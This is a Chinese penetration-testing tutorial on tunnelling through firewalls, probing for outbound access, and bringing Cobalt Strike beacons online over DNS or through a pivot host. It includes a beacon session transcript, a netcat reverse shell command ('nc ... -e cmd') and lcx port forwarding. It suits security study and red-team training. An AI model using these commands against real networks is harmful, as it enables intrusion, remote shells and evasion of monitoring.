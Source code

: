 # 内网安全——流量隧道不出网与端口转发

## 流量隧道

1. 在数据通信被拦截的情况下利用隧道技术封装改变通信协议进行绕过拦截CS、MSF无法上线，数据传输不稳定无回显，出口数据被监控，网络通信存在问题等。

2. 在实际的网络中，通常会通过各种边界设备、软/硬件防火墙甚至入侵检测系统来检查对外连接情况，如果发现异样，就会对通信进行阻断。那么什么是隧道呢？这里的隧道，就是一种绕过端口屏蔽的通信方式。防火墙两端的数据包通过防火墙所允许的数据包类型或端口进行封装，然后穿过防火墙，与对方进行通信。当封装的数据包到达目的地时，将数据包还原，并将还原后的数据包发送到相应服务器上。

3. 常用的隧道技术有以下三种
   - 网络层
     - IPv6 隧道
     - ICMP 隧道
   - 传输层
     - TCP 隧道
     - UDP 隧道
     - 常规端口转发
   - 应用层
     - SSH 隧道
     - HTTP/S 隧道
     - DNS 隧道

## 出网探针

1. TCP 协议

   用“瑞士军刀”——netcat

   ``` shell
   nc <IP> <端口>
   ```

2. HTTP 协议

   用“curl”工具，执行curl `IP地址:端口`命令。如果远程主机开启了相应的端口，且内网可连接外网的话，就会输出相应的端口信息

3. ICMP 协议

   用“ping”命令，执行`ping IP地址/域名`

4. DNS 协议
   - 检测DNS连通性常用的命令是“nslookup”和“dig”
   - nslookup 是windows自带的DNS探测命令
   - dig是linux系统自带的DNS探测命令

5. 其他协议或端口直接测



## 单协议出网-探针并上线CS(HTTP/DNS)

1. 防火墙设置出网HTTP/DNS

2. CS配置上线监听器HTTP/DNS
   - 云主机安全组配置端口53启用;
   - 买一个域名修改解析记录如下：
     - A记录->cs主机名->CS服务器IP
     - NS记录->ns1主机名->上个A记录地址
     - NS记录->ns2主机名->上个A记录地址

3. 配置DNS监听器内容如下
   - ns1.xiaodi8.com
   - ns2.xiaodi8.com
   - cs.xiaodi8.com

4. 生成后门执行上线后启用命令

   ``` shell
   beacon> checkin
   
   [*] Tasked beacon to checkin
   
   beacon> mode dns-txt
   
   [+] data channel set to DNS-TXT
   
   [+] host called home, sent: 8 bytes
   
   beacon> shell whoami
   
   [*] Tasked beacon to run: whoami
   
   [+] host called home, sent: 53 bytes
   
   [+] received output:
   
   xiaodi-pc\xiaodi
   ```



## 完全不出网-探针并上线CS(正反向/重定向转发)

1. 条件：上线或反弹均需要一台能出网的跳板机

2. 反弹shell

   - win10受害机

     ``` shell
     nc 192.168.3.104 1111 -e cmd //反向连接
     ```

   - 将cmd权限流量转发至192.168.3.104 1111端口上

   - win7跳板机：

     ``` shell
     lcx -listen 1111 2222 //转发
     ```

   - 将本地的1111流量转发至2222端口上

   - 本机：

     ``` shell
     nc 192.168.46.142 2222  //正向连接
     ```

   - 直接连接192.168.46.142上2222数据

3. 上线CS
   - 跳板机先上线
   - 在跳板机上创建监听
   - 将创建的监听生成后门
   - 不出网机器执行后门上线